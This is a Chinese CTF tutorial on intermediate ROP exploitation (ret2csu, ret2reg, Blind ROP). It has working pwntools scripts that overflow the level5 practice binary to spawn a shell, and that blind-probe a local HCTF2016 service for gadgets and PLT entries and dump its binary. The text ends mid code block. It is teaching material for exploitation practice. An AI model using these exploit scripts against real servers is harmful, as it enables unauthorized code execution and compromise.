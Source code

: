 
中级ROP
=======

中级ROP主要是使用了一些比较巧妙的Gadgets。

ret2\_\_libc\_scu\_init
-----------------------

原理
~~~~

在64位程序中，函数的前6个参数是通过寄存器传递的，但是大多数时候，我们很难找到每一个寄存器对应的gadgets。
这时候，我们可以利用x64下的\_\_libc\_scu\_init中的gadgets。这个函数是用来对libc进行初始化操作的，而一般的程序都会调用libc函数，所以这个函数一定会存在。我们先来看一下这个函数(当然，不同版本的这个函数有一定的区别)

.. code:: asm

    .text:00000000004005C0 ; void _libc_csu_init(void)
    .text:00000000004005C0                 public __libc_csu_init
    .text:00000000004005C0 __libc_csu_init proc near               ; DATA XREF: _start+16o
    .text:00000000004005C0                 push    r15
    .text:00000000004005C2                 push    r14
    .text:00000000004005C4                 mov     r15d, edi
    .text:00000000004005C7                 push    r13
    .text:00000000004005C9                 push    r12
    .text:00000000004005CB                 lea     r12, __frame_dummy_init_array_entry
    .text:00000000004005D2                 push    rbp
    .text:00000000004005D3                 lea     rbp, __do_global_dtors_aux_fini_array_entry
    .text:00000000004005DA                 push    rbx
    .text:00000000004005DB                 mov     r14, rsi
    .text:00000000004005DE                 mov     r13, rdx
    .text:00000000004005E1                 sub     rbp, r12
    .text:00000000004005E4                 sub     rsp, 8
    .text:00000000004005E8                 sar     rbp, 3
    .text:00000000004005EC                 call    _init_proc
    .text:00000000004005F1                 test    rbp, rbp
    .text:00000000004005F4                 jz      short loc_400616
    .text:00000000004005F6                 xor     ebx, ebx
    .text:00000000004005F8                 nop     dword ptr [rax+rax+00000000h]
    .text:0000000000400600
    .text:0000000000400600 loc_400600:                             ; CODE XREF: __libc_csu_init+54j
    .text:0000000000400600                 mov     rdx, r13
    .text:0000000000400603                 mov     rsi, r14
    .text:0000000000400606                 mov     edi, r15d
    .text:0000000000400609                 call    qword ptr [r12+rbx*8]
    .text:000000000040060D                 add     rbx, 1
    .text:0000000000400611                 cmp     rbx, rbp
    .text:0000000000400614                 jnz     short loc_400600
    .text:0000000000400616
    .text:0000000000400616 loc_400616:                             ; CODE XREF: __libc_csu_init+34j
    .text:0000000000400616                 add     rsp, 8
    .text:000000000040061A                 pop     rbx
    .text:000000000040061B                 pop     rbp
    .text:000000000040061C                 pop     r12
    .text:000000000040061E                 pop     r13
    .text:0000000000400620                 pop     r14
    .text:0000000000400622                 pop     r15
    .text:0000000000400624                 retn
    .text:0000000000400624 __libc_csu_init endp

这里我们可以利用以下几点

-  从0x000000000040061A一直到结尾，我们可以利用栈溢出构造栈上数据来控制rbx,rbp,r12,r13,r14,r15寄存器的数据。
-  从0x0000000000400600到0x0000000000400609，我们可以将r13赋给rdx,将r14赋给rsi，将r15d赋给edi（需要注意的是，虽然这里赋给的是edi，\ **但其实此时rdi的高32位寄存器值为0（自行调试）**\ ，所以其实我们可以控制rdi寄存器的值，只不过只能控制低32位），而这三个寄存器，也是x64函数调用中传递的前三个寄存器。此外，如果我们可以合理地控制r12与rbx，那么我们就可以调用我们想要调用的函数。比如说我们可以控制rbx为0，r12为存储我们想要调用的函数的地址。
-  从0x000000000040060D到0x0000000000400614，我们可以控制rbx与rbp的之间的关系为rbx+1=rbp，这样我们就不会执行loc\_400600，进而可以继续执行下面的汇编程序。这里我们可以简单的设置rbx=0，rbp=1。

示例
~~~~

这里我们以蒸米的一步一步学ROP之linux\_x64篇中level5为例进行介绍。首先检查程序的安全保护

.. code:: shell

    ➜  ret2__libc_csu_init git:(iromise) ✗ checksec level5   
        Arch:     amd64-64-little
        RELRO:    Partial RELRO
        Stack:    No canary found
        NX:       NX enabled
        PIE:      No PIE (0x400000)

程序为64位，开启了堆栈不可执行保护。

其次，寻找程序的漏洞，可以看出程序中有一个简单的栈溢出

.. code:: c

    ssize_t vulnerable_function()
    {
      char buf; // [sp+0h] [bp-80h]@1

      return read(0, &buf, 0x200uLL);
    }

简单浏览下程序，发现程序中既没有system函数地址，也没有/bin/sh字符串，所以两者都需要我们自己去构造了。

**注：这里我尝试在我本机使用system函数来获取shell失败了，应该是环境变量的问题，所以这里使用的是execve来获取shell。**

基本利用思路如下

-  利用栈溢出执行libc\_csu\_gadgets获取write函数地址，并使得程序重新执行main函数
-  根据libcsearcher获取对应libc版本以及execve函数地址
-  再次利用栈溢出执行libc\_csu\_gadgets向bss段写入execve地址以及'/bin/sh’地址，并使得程序重新执行main函数。
-  再次利用栈溢出执行libc\_csu\_gadgets执行execve('/bin/sh')获取shell。

exp如下

.. code:: python

    from pwn import *
    from LibcSearcher import LibcSearcher

    ##context.log_level = 'debug'

    level5 = ELF('./level5')
    sh = process('./level5')

    write_got = level5.got['write']
    read_got = level5.got['read']
    main_addr = level5.symbols['main']
    bss_base = level5.bss()
    csu_front_addr = 0x0000000000400600
    csu_end_addr = 0x000000000040061A
    fakeebp = 'b' * 8


    def csu(rbx, rbp, r12, r13, r14, r15, last):
        # pop rbx,rbp,r12,r13,r14,r15
        # rbx should be 0,
        # rbp should be 1,enable not to jump
        # r12 should be the function we want to call
        # rdi=edi=r15d
        # rsi=r14
        # rdx=r13
        payload = 'a' * 0x80 + fakeebp
        payload += p64(csu_end_addr) + p64(rbx) + p64(rbp) + p64(r12) + p64(
            r13) + p64(r14) + p64(r15)
        payload += p64(csu_front_addr)
        payload += 'a' * 0x38
        payload += p64(last)
        sh.send(payload)
        sleep(1)


    sh.recvuntil('Hello, World\n')
    ## RDI, RSI, RDX, RCX, R8, R9, more on the stack
    ## write(1,write_got,8)
    csu(0, 1, write_got, 8, write_got, 1, main_addr)

    write_addr = u64(sh.recv(8))
    libc = LibcSearcher('write', write_addr)
    libc_base = write_addr - libc.dump('write')
    execve_addr = libc_base + libc.dump('execve')
    log.success('execve_addr ' + hex(execve_addr))
    ##gdb.attach(sh)

    ## read(0,bss_base,16)
    ## read execve_addr and /bin/sh\x00
    sh.recvuntil('Hello, World\n')
    csu(0, 1, read_got, 16, bss_base, 0, main_addr)
    sh.send(p64(execve_addr) + '/bin/sh\x00')

    sh.recvuntil('Hello, World\n')
    ## execve(bss_base+8)
    csu(0, 1, bss_base, 0, 0, bss_base + 8, main_addr)
    sh.interactive()

思考
~~~~

改进
^^^^

在上面的时候，我们直接利用了这个通用gadgets，其输入的字节长度为128。但是，并不是所有的程序漏洞都可以让我们输入这么长的字节。那么当允许我们输入的字节数较少的时候，我们该怎么有什么办法呢？下面给出了几个方法

改进1-提前控制rbx与rbp
''''''''''''''''''''''

可以看到在我们之前的利用中，我们利用这两个寄存器的值的主要是为了满足cmp的条件，并进行跳转。如果我们可以提前控制这两个数值，那么我们就可以减少16字节，即我们所需的字节数只需要112。

改进2-多次利用
''''''''''''''

其实，改进1也算是一种多次利用。我们可以看到我们的gadgets是分为两部分的，那么我们其实可以进行两次调用来达到的目的，以便于减少一次gadgets所需要的字节数。但这里的多次利用需要更加严格的条件

-  漏洞可以被多次触发
-  在两次触发之间，程序尚未修改r12-r15寄存器，这是因为要两次调用。

**当然，有时候我们也会遇到一次性可以读入大量的字节，但是不允许漏洞再次利用的情况，这时候就需要我们一次性将所有的字节布置好，之后慢慢利用。**

gadget
^^^^^^

其实，除了上述这个gadgets，gcc默认还会编译进去一些其它的函数

.. code:: text

    _init
    _start
    call_gmon_start
    deregister_tm_clones
    register_tm_clones
    __do_global_dtors_aux
    frame_dummy
    __libc_csu_init
    __libc_csu_fini
    _fini

我们也可以尝试利用其中的一些代码来进行执行。此外，由于PC本身只是将程序的执行地址处的数据传递给CPU，而CPU则只是对传递来的数据进行解码，只要解码成功，就会进行执行。所以我们可以将源程序中一些地址进行偏移从而来获取我们所想要的指令，只要可以确保程序不崩溃。

需要一说的是，在上面的libc\_csu\_init中我们主要利用了以下寄存器

-  利用尾部代码控制了rbx，rbp，r12，r13，r14，r15。
-  利用中间部分的代码控制了rdx，rsi，edi。

而其实libc\_csu\_init的尾部通过偏移是可以控制其他寄存器的。其中，0x000000000040061A是正常的起始地址，\ **可以看到我们在0x000000000040061f处可以控制rbp寄存器，在0x0000000000400621处可以控制rsi寄存器。**\ 而如果想要深入地了解这一部分的内容，就要对汇编指令中的每个字段进行更加透彻地理解。如下。

.. code:: asm

    gef➤  x/5i 0x000000000040061A
       0x40061a <__libc_csu_init+90>:   pop    rbx
       0x40061b <__libc_csu_init+91>:   pop    rbp
       0x40061c <__libc_csu_init+92>:   pop    r12
       0x40061e <__libc_csu_init+94>:   pop    r13
       0x400620 <__libc_csu_init+96>:   pop    r14
    gef➤  x/5i 0x000000000040061b
       0x40061b <__libc_csu_init+91>:   pop    rbp
       0x40061c <__libc_csu_init+92>:   pop    r12
       0x40061e <__libc_csu_init+94>:   pop    r13
       0x400620 <__libc_csu_init+96>:   pop    r14
       0x400622 <__libc_csu_init+98>:   pop    r15
    gef➤  x/5i 0x000000000040061A+3
       0x40061d <__libc_csu_init+93>:   pop    rsp
       0x40061e <__libc_csu_init+94>:   pop    r13
       0x400620 <__libc_csu_init+96>:   pop    r14
       0x400622 <__libc_csu_init+98>:   pop    r15
       0x400624 <__libc_csu_init+100>:  ret 
    gef➤  x/5i 0x000000000040061e
       0x40061e <__libc_csu_init+94>:   pop    r13
       0x400620 <__libc_csu_init+96>:   pop    r14
       0x400622 <__libc_csu_init+98>:   pop    r15
       0x400624 <__libc_csu_init+100>:  ret    
       0x400625:    nop
    gef➤  x/5i 0x000000000040061f
       0x40061f <__libc_csu_init+95>:   pop    rbp
       0x400620 <__libc_csu_init+96>:   pop    r14
       0x400622 <__libc_csu_init+98>:   pop    r15
       0x400624 <__libc_csu_init+100>:  ret    
       0x400625:    nop
    gef➤  x/5i 0x0000000000400620
       0x400620 <__libc_csu_init+96>:   pop    r14
       0x400622 <__libc_csu_init+98>:   pop    r15
       0x400624 <__libc_csu_init+100>:  ret    
       0x400625:    nop
       0x400626:    nop    WORD PTR cs:[rax+rax*1+0x0]
    gef➤  x/5i 0x0000000000400621
       0x400621 <__libc_csu_init+97>:   pop    rsi
       0x400622 <__libc_csu_init+98>:   pop    r15
       0x400624 <__libc_csu_init+100>:  ret    
       0x400625:    nop
    gef➤  x/5i 0x000000000040061A+9
       0x400623 <__libc_csu_init+99>:   pop    rdi
       0x400624 <__libc_csu_init+100>:  ret    
       0x400625:    nop
       0x400626:    nop    WORD PTR cs:[rax+rax*1+0x0]
       0x400630 <__libc_csu_fini>:  repz ret 

题目
~~~~

-  2016 XDCTF pwn100
-  2016 华山杯 SU\_PWN

参考阅读

-  http://wooyun.jozxing.cc/static/drops/papers-7551.html
-  http://wooyun.jozxing.cc/static/drops/binary-10638.html

ret2reg
-------

原理
~~~~

1. 查看溢出函返回时哪个寄存值指向溢出缓冲区空间
2. 然后反编译二进制，查找call reg 或者jmp reg指令，将 EIP设置为该指令地址
3. reg所指向的空间上注入Shellcode(需要确保该空间是可以执行的，但通常都是栈上的)

BROP
----

基本介绍
~~~~~~~~

BROP(Blind ROP)于2014年由Standford的Andrea Bittau提出，其相关研究成果发表在Oakland 2014，其论文题目是\ **Hacking Blind**\ ，下面是作者对应的paper和slides,以及作者相应的介绍

-  `paper <http://www.scs.stanford.edu/brop/bittau-brop.pdf>`__
-  `slide <http://www.scs.stanford.edu/brop/bittau-brop-slides.pdf>`__

BROP是没有对应应用程序的源代码或者二进制文件下，对程序进行攻击，劫持程序的执行流。

攻击条件
~~~~~~~~

1. 源程序必须存在栈溢出漏洞，以便于攻击者可以控制程序流程。
2. 服务器端的进程在崩溃之后会重新启动，并且重新启动的进程的地址与先前的地址一样（这也就是说即使程序有ASLR保护，但是其只是在程序最初启动的时候有效果）。目前nginx, MySQL, Apache,
   OpenSSH等服务器应用都是符合这种特性的。

攻击原理
~~~~~~~~

目前，大部分应用都会开启ASLR、NX、Canary保护。这里我们分别讲解在BROP中如何绕过这些保护，以及如何进行攻击。

基本思路
^^^^^^^^

在BROP中，基本的遵循的思路如下

-  判断栈溢出字符串长度
-  暴力枚举
-  Stack Reading
-  获取栈上的数据来泄露canaries，以及ebp和返回地址。
-  Bind ROP
-  找到足够多的gadgets来控制输出函数的参数，并且对其进行调用，比如说常见的write函数以及puts函数。
-  Build the exploit
-  利用输出函数来dump出程序以便于来找到更多的gadgets，从而可以写出最后的exploit。

栈溢出长度
^^^^^^^^^^

直接从1暴力枚举即可，直到发现程序崩溃。

Stack Reading
^^^^^^^^^^^^^

如下所示，这是目前经典的栈布局

::

    buffer|canary|saved fame pointer|saved returned address

要向得到canary以及之后的变量，我们需要解决第一个问题，如何得到overflow的长度，这个可以通过不断尝试来获取。

其次，关于canary以及后面的变量，所采用的的方法一致，这里我们以canary为例。

canary本身可以通过爆破来获取，但是如果只是愚蠢地枚举所有的数值的话，显然是低效的。

需要注意的是，攻击条件2表明了程序本身并不会因为crash有变化，所以每次的canary等值都是一样的。所以我们可以按照字节进行爆破。正如论文中所展示的，每个字节最多有256种可能，所以在32位的情况下，我们最多需要爆破1024次，64位最多爆破2048次。

.. figure:: /pwn/stackoverflow/figure/stack_reading.png
   :alt: 

Blind ROP
^^^^^^^^^

基本思路
''''''''

最朴素的执行write函数的方法就是构造系统调用。

.. code:: asm

    pop rdi; ret # socket
    pop rsi; ret # buffer
    pop rdx; ret # length
    pop rax; ret # write syscall number
    syscall

但通常来说，这样的方法都是比较困难的，因为想要找到一个syscall的地址基本不可能。。。我们可以通过转换为找write的方式来获取。

BROP gadgets
            

首先，在libc\_csu\_init的结尾一长串的gadgets，我们可以通过偏移来获取write函数调用的前两个参数。正如文中所展示的

.. figure:: /pwn/stackoverflow/figure/brop_gadget.png
   :alt: 

find a call write
                 

我们可以通过plt表来获取write的地址。

control rdx
           

需要注意的是，rdx只是我们用来输出程序字节长度的变量，只要不为0即可。一般来说程序中的rdx经常性会不是零。但是为了更好地控制程序输出，我们仍然尽量可以控制这个值。但是，在程序

.. code:: asm

    pop rdx; ret

这样的指令几乎没有。那么，我们该如何控制rdx的数值呢？这里需要说明执行strcmp的时候，rdx会被设置为将要被比较的字符串的长度，所以我们可以找到strcmp函数，从而来控制rdx。

那么接下来的问题，我们就可以分为两项

-  寻找gadgets
-  寻找PLT表
-  write入口
-  strcmp入口

寻找gadgets
'''''''''''

首先，我们来想办法寻找gadgets。此时，由于尚未知道程序具体长什么样，所以我们只能通过简单的控制程序的返回地址为自己设置的值，从而而来猜测相应的gadgets。而当我们控制程序的返回地址时，一般有以下几种情况

-  程序直接崩溃
-  程序运行一段时间后崩溃
-  程序一直运行而并不崩溃

为了寻找合理的gadgets，我们可以分为以下两步

寻找stop gadgets
                

所谓\ ``stop gadget``\ 一般指的是这样一段代码：当程序的执行这段代码时，程序会进入无限循环，这样使得攻击者能够一直保持连接状态。

    其实stop gadget也并不一定得是上面的样子，其根本的目的在于告诉攻击者，所测试的返回地址是一个gadgets。

之所以要寻找stop
gadgets，是因为当我们猜到某个gadgtes后，如果我们仅仅是将其布置在栈上，由于执行完这个gadget之后，程序还会跳到栈上的下一个地址。如果该地址是非法地址，那么程序就会crash。这样的话，在攻击者看来程序只是单纯的crash了。因此，攻击者就会认为在这个过程中并没有执行到任何的\ ``useful gadget``\ ，从而放弃它。例子如下图

.. figure:: /pwn/stackoverflow/figure/stop_gadget.png
   :alt: 

但是，如果我们布置了\ ``stop gadget``\ ，那么对于我们所要尝试的每一个地址，如果它是一个gadget的话，那么程序不会崩溃。接下来，就是去想办法识别这些gadget。

识别 gadgets
            

那么，我们该如何识别这些gadgets呢？我们可以通过栈布局以及程序的行为来进行识别。为了更加容易地进行介绍，这里定义栈上的三种地址

-  **Probe**
-  探针，也就是我们想要探测的代码地址。一般来说，都是64位程序，可以直接从0x400000尝试，如果不成功，有可能程序开启了PIE保护，再不济，就可能是程序是32位了。。这里我还没有特别想明白，怎么可以快速确定远程的位数。
-  **Stop**
-  不会使得程序崩溃的stop gadget的地址。
-  **Trap**
-  可以导致程序崩溃的地址

我们可以通过在栈上摆放不同顺序的\ **Stop**\ 与 **Trap**\ 从而来识别出正在执行的指令。因为执行Stop意味着程序不会崩溃，执行Trap意味着程序会立即崩溃。这里给出几个例子

-  probe,stop,traps(traps,traps,...)
-  我们通过程序崩溃与否(\ **如果程序在probe处直接崩溃怎么判断**)可以找到不会对栈进行pop操作的gadget，如

   -  ret
   -  xor eax,eax; ret

-  probe,trap,stop,traps
-  我们可以通过这样的布局找到只是弹出一个栈变量的gadget。如

   -  pop rax; ret
   -  pop rdi; ret

-  probe, trap, trap, trap, trap, trap, trap, stop, traps
-  我们可以通过这样的布局来找到弹出6个栈变量的gadget，也就是与brop
   gadget相似的gadget。\ **这里感觉原文是有问题的，比如说如果遇到了只是pop一个栈变量的地址，其实也是不会崩溃的，，**\ 这里一般来说会遇到两处比较有意思的地方

   -  plt处不会崩，，
   -  \_start处不会崩，相当于程序重新执行。

之所以要在每个布局的后面都放上trap，是为了能够识别出，当我们的probe处对应的地址执行的指令跳过了stop，程序立马崩溃的行为。

但是，即使是这样，我们仍然难以识别出正在执行的gadget到底是在对哪个寄存器进行操作。

但是，需要注意的是向BROP这样的一下子弹出6个寄存器的gadgets，程序中并不经常出现。所以，如果我们发现了这样的gadgets，那么，有很大的可能性，这个gadgets就是brop
gadgets。此外，这个gadgets通过错位还可以生成pop rsp等这样的gadgets，可以使得程序崩溃也可以作为识别这个gadgets的标志。

此外，根据我们之前学的ret2libc\_csu\_init可以知道该地址减去0x1a就会得到其上一个gadgets。可以供我们调用其它函数。

需要注意的是probe可能是一个stop gadget，我们得去检查一下，怎么检查呢？我们只需要让后面所有的内容变为trap地址即可。因为如果是stop gadget的话，程序会正常执行，否则就会崩溃。看起来似乎很有意思.

寻找PLT
'''''''

如下图所示，程序的plt表具有比较规整的结构，每一个plt表项都是16字节。而且，在每一个表项的6字节偏移处，是该表项对应的函数的解析路径，即程序最初执行该函数的时候，会执行该路径对函数的got地址进行解析。

.. figure:: /pwn/stackoverflow/figure/brop_plt.png
   :alt: 

此外，对于大多数plt调用来说，一般都不容易崩溃，即使是使用了比较奇怪的参数。所以说，如果我们发现了一系列的长度为16的没有使得程序崩溃的代码段，那么我们有一定的理由相信我们遇到了plt表。除此之外，我们还可以通过前后偏移6字节，来判断我们是处于plt表项中间还是说处于开头。

控制rdx
'''''''

当我们找到plt表之后，下面，我们就该想办法来控制rdx的数值了，那么该如何确认strcmp的位置呢？需要提前说的是，并不是所有的程序都会调用strcmp函数，所以在没有调用strcmp函数的情况下，我们就得利用其它方式来控制rdx的值了。这里给出程序中使用strcmp函数的情况。

之前，我们已经找到了brop的gadgets，所以我们可以控制函数的前两个参数了。与此同时，我们定义以下两种地址

-  readable，可读的地址。
-  bad, 非法地址，不可访问，比如说0x0。

那么我们如果控制传递的参数为这两种地址的组合，会出现以下四种情况

-  strcmp(bad,bad)
-  strcmp(bad,readable)
-  strcmp(readable,bad)
-  strcmp(readable,readable)

只有最后一种格式，程序才会正常执行。

**注**\ ：在没有PIE保护的时候，64位程序的ELF文件的0x400000处有7个非零字节。

那么我们该如何具体地去做呢？有一种比较直接的方法就是从头到尾依次扫描每个plt表项，但是这个却比较麻烦。我们可以选择如下的一种方法

-  利用plt表项的慢路径
-  并且利用下一个表项的慢路径的地址来覆盖返回地址

这样，我们就不用来回控制相应的变量了。

当然，我们也可能碰巧找到strncmp或者strcasecmp函数，它们具有和strcmp一样的效果。

寻找输出函数
''''''''''''

寻找输出函数既可以寻找write，也可以寻找puts。一般现先找puts函数。不过这里为了介绍方便，先介绍如何寻找write。

寻找write@plt
             

当我们可以控制write函数的三个参数的时候，我们就可以再次遍历所有的plt表，根据write函数将会输出内容来找到对应的函数。需要注意的是，这里有个比较麻烦的地方在于我们需要找到文件描述符的值。一般情况下，我们有两种方法来找到这个值

-  使用rop chain，同时使得每个rop对应的文件描述符不一样
-  同时打开多个连接，并且我们使用相对较高的数值来试一试。

需要注意的是

-  linux默认情况下，一个进程最多只能打开1024个文件描述符。
-  posix标准每次申请的文件描述符数值总是当前最小可用数值。

当然，我们也可以选择寻找puts函数。

寻找puts@plt
            

寻找puts函数(这里我们寻找的是 plt)，我们自然需要控制rdi参数，在上面，我们已经找到了brop gadget。那么，我们根据brop
gadget偏移9可以得到相应的gadgets（由ret2libc\_csu\_init中后续可得）。同时在程序还没有开启PIE保护的情况下，0x400000处为ELF文件的头部，其内容为\\\x7fELF。所以我们可以根据这个来进行判断。一般来说，其payload如下

::

    payload = 'A'*length +p64(pop_rdi_ret)+p64(0x400000)+p64(addr)+p64(stop_gadget)

攻击总结
^^^^^^^^

此时，攻击者已经可以控制输出函数了，那么攻击者就可以输出.text段更多的内容以便于来找到更多合适gadgets。同时，攻击者还可以找到一些其它函数，如dup2或者execve函数。一般来说，攻击者此时会去做下事情

-  将socket输出重定向到输入输出
-  寻找“/bin/sh”的地址。一般来说，最好是找到一块可写的内存，利用write函数将这个字符串写到相应的地址。
-  执行execve获取shell，获取execve不一定在plt表中，此时攻击者就需要想办法执行系统调用了。

例子
~~~~

这里我们以HCTF2016的出题人失踪了为例，相关的部署文件都放在了example文件夹下的对应目录下。基本思路如下

确定栈溢出长度
^^^^^^^^^^^^^^

.. code:: python

    def getbufferflow_length():
        i = 1
        while 1:
            try:
                sh = remote('127.0.0.1', 9999)
                sh.recvuntil('WelCome my friend,Do you know password?\n')
                sh.sendline(i * 'a')
                output = sh.recv()
                sh.close()
                if not output.startswith('No password'):
                    return i - 1
                else:
                    i += 1
            except EOFError:
                sh.close()
                return i - 1

根据上面，我们可以确定，栈溢出的长度为72。同时，根据回显信息可以发现程序并没有开启canary保护，否则，就会有相应的报错内容。所以我们不需要执行stack reading。

寻找 stop gadgets
^^^^^^^^^^^^^^^^^

寻找过程如下

.. code:: python

    def get_stop_addr(length):
        addr = 0x400000
        while 1:
            try:
                sh = remote('127.0.0.1', 9999)
                sh.recvuntil('password?\n')
                payload = 'a' * length + p64(addr)
                sh.sendline(payload)
                sh.recv()
                sh.close()
                print 'one success addr: 0x%x' % (addr)
                return addr
            except Exception:
                addr += 1
                sh.close()

这里我们直接尝试64位程序没有开启PIE的情况，因为一般是这个样子的，，，如果开启了，，那就按照开启了的方法做，，结果发现了不少，，我选择了一个貌似返回到源程序中的地址

.. code:: text

    one success stop gadget addr: 0x4006b6

识别brop gadgets
^^^^^^^^^^^^^^^^

下面，我们根据上面介绍的原理来得到对应的brop gadgets地址。构造如下，get\_brop\_gadget是为了得到可能的brop gadget，后面的check\_brop\_gadget是为了检查。

.. code:: python

    def get_brop_gadget(length, stop_gadget, addr):
        try:
            sh = remote('127.0.0.1', 9999)
            sh.recvuntil('password?\n')
            payload = 'a' * length + p64(addr) + p64(0) * 6 + p64(
                stop_gadget) + p64(0) * 10
            sh.sendline(payload)
            content = sh.recv()
            sh.close()
            print content
            # stop gadget returns memory
            if not content.startswith('WelCome'):
                return False
            return True
        except Exception:
            sh.close()
            return False


    def check_brop_gadget(length, addr):
        try:
            sh = remote('127.0.0.1', 9999)
            sh.recvuntil('password?\n')
            payload = 'a' * length + p64(addr) + 'a' * 8 * 10
            sh.sendline(payload)
            content = sh.recv()
            sh.close()
            return False
        except Exception:
            sh.close()
            return True


    ##length = getbufferflow_length()
    length = 72
    ##get_stop_addr(length)
    stop_gadget = 0x4006b6
    addr = 0x400740
    while 1:
        print hex(addr)
        if get_brop_gadget(length, stop_gadget, addr):
            print 'possible brop gadget: 0x%x' % addr
            if check_brop_gadget(length, addr):
                print 'success brop gadget: 0x%x' % addr
                break
        addr += 1

这样，我们基本得到了brop的gadgets地址0x4007ba

确定puts@plt地址
^^^^^^^^^^^^^^^^

根据上面，所说我们可以构造如下payload来进行获取

.. code:: text

    payload = 'A'*72 +p64(pop_rdi_ret)+p64(0x400000)+p64(addr)+p64(stop_gadget)

具体函数如下

.. code:: python

    def get_puts_addr(length, rdi_ret, stop_gadget):
        addr = 0x400000
        while 1:
            print hex(addr)
            sh = remote('127.0.0.1', 9999)
            sh.recvuntil('password?\n')
            payload = 'A' * length + p64(rdi_ret) + p64(0x400000) + p64(
                addr) + p64(stop_gadget)
            sh.sendline(payload)
            try:
                content = sh.recv()
                if content.startswith('\x7fELF'):
                    print 'find puts@plt addr: 0x%x' % addr
                    return addr
                sh.close()
                addr += 1
            except Exception:
                sh.close()
                addr += 1

最后根据plt的结构，选择0x400560作为puts@plt

泄露puts@got地址
^^^^^^^^^^^^^^^^

在我们可以调用puts函数后，我们可以泄露puts函数的地址，进而获取libc版本，从而获取相关的system函数地址与/bin/sh地址，从而获取shell。我们从0x400000开始泄露0x1000个字节，这已经足够包含程序的plt部分了。代码如下

.. code:: python

    def leak(length, rdi_ret, puts_plt, leak_addr, stop_gadget):
        sh = remote('127.0.0.1', 9999)
        payload = 'a' * length + p64(rdi_ret) + p64(leak_addr) + p64(
            puts_plt) + p64(stop_gadget)
        sh.recvuntil('password?\n')
        sh.sendline(payload)
        try:
            data = sh.recv()
            sh.close()
            try:
                data = data[:data.index("\nWelCome")]
            except Exception:
                data = data
            if data == "":
                data = '\x00'
            return data
        except Exception:
            sh.close()
            return None


    ##length = getbufferflow_length()
    length = 72
    ##stop_gadget = get_stop_addr(length)
    stop_gadget = 0x4006b6
    ##brop_gadget = find_brop_gadget(length,stop_gadget)
    brop_gadget = 0x4007ba
    rdi_ret = brop_gadget + 9
    ##puts_plt = get_puts_plt(length, rdi_ret, stop_gadget)
    puts_plt = 0x400560
    addr = 0x400000
    result = ""
    while addr < 0x401000:
        print hex(addr)
        data = leak(length, rdi_ret, puts_plt, addr, stop_gadget)
        if data is None:
            continue
        else:
            result += data
        addr += len(data)
    with open('code', 'wb') as f:
        f.write(result)

最后，我们将泄露的内容写到文件里。需要注意的是如果泄露出来的是“”,那说明我们遇到了':raw-latex:`\x`00'，因为puts是输出字符串，字符串是以':raw-latex:`\x`00'为终止符的。之后利用ida打开binary模式，首先在edit->segments->rebase
program 将程序的基地址改为0x400000，然后找到偏移0x560处，如下

.. code:: asm

    seg000:0000000000400560                 db 0FFh
    seg000:0000000000400561                 db  25h ; %
    seg000:0000000000400562                 db 0B2h ; 
    seg000:0000000000400563                 db  0Ah
    seg000:0000000000400564                 db  20h
    seg000:0000000000400565                 db    0

然后按下c,将此处的数据转换为汇编指令，如下

.. code:: asm

